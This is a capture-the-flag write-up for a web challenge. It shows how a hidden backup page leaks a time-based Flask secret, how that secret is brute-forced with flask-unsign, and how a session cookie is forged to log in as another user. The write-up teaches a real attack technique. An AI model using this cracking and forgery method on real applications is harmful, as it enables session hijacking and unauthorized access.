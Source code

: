 # Challenge Name: Thomas DEVerson


![date](https://img.shields.io/badge/date-23.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-175-blue.svg)  

## Description

Author: @Jstith  
  
All things considered, I'm impressed this website is still up and running 200 years later.  
  
## Detailed solution

![Pasted image 20240525232509](https://github.com/BaadMaro/CTF/assets/72421091/f452f6c5-cfa2-4f21-b0e5-69358adcd8e4)

Start checking the pages. I found a comment on the Messages page view-source:http://challenge.nahamcon.com:32723/messages

```html
<!-- <a href="/backup" class="pl-md-0 p-3 text-white">Backup</a> !-->
```

http://challenge.nahamcon.com:32723/backup

![Pasted image 20240525232639](https://github.com/BaadMaro/CTF/assets/72421091/ca88130f-7376-4769-b8f8-1de85ba0d6b8)

We have a part of the app.py (10 lines) 

We can clearly see the app secret used for flask cookie management and also users.

The secret key is linked to the date time of app start, which is available at http://challenge.nahamcon.com:32723/status

The cookie used was `eyJuYW1lIjoiZ3Vlc3QifQ.ZlJnJQ.v6T-LeB_sG7QtOz-9nts1T9-jyA` which has the part {"name":"guest"} (using base64 decode).

Now we need to get the exact time used for secret key to forge our cookie using one of the allowed users

Getting the date http://challenge.nahamcon.com:32723/status

```
System healthy! Computing uptime... 82816 days 12 hours 41 minutes
```

```python
from datetime import datetime, timedelta

# Get the current date and time
now = datetime.now()

# Define the duration to subtract
days = 82816
hours = 12
minutes = 41

# Create a timedelta object for the duration
duration = timedelta(days=days, hours=hours, minutes=minutes)

# Calculate the past date and time
past_date = now - duration

# Print the result
print(past_date)
```

I got 1797-08-25. I ignored the hour and minutes to try to find them accurately.

```python
for hour in range(24):
    for minute in range(60):
        print(f"THE_REYNOLDS_PAMPHLET-17970825{hour:02}{minute:02}")
```

I saved the output in secrets.txt and started the cracking process using `flask-unsign`

```
flask-unsign -c "eyJuYW1lIjoiZ3Vlc3QifQ.Zk-uig.mX9ksf-4ohQQjnA3I6m2OlENt4Y" --wordlist secrets.txt -u --no-literal-eval

[*] Session decodes to: {'name': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 640 attemptsLET-17970825
b'THE_REYNOLDS_PAMPHLET-179708250845'

```

We got the secret key `THE_REYNOLDS_PAMPHLET-179708250845`

Now let's generate our cookie

```
flask-unsign -c "{'name': 'Jefferson'}" --secret "THE_REYNOLDS_PAMPHLET-179708250845" --sign

eyJuYW1lIjoiSmVmZmVyc29uIn0.Zk-3WQ.WCy1txbI_4wuGzruToNF7FY14YQ
```

We need to change the cookie in devtools and check messages page

![Pasted image 20240525234745](https://github.com/BaadMaro/CTF/assets/72421091/56136246-ffd9-43d2-963f-4fd0fdf1588a)

## Flag

```
flag{f69f2c087b291b9da9c9fe9219ee130f}
```
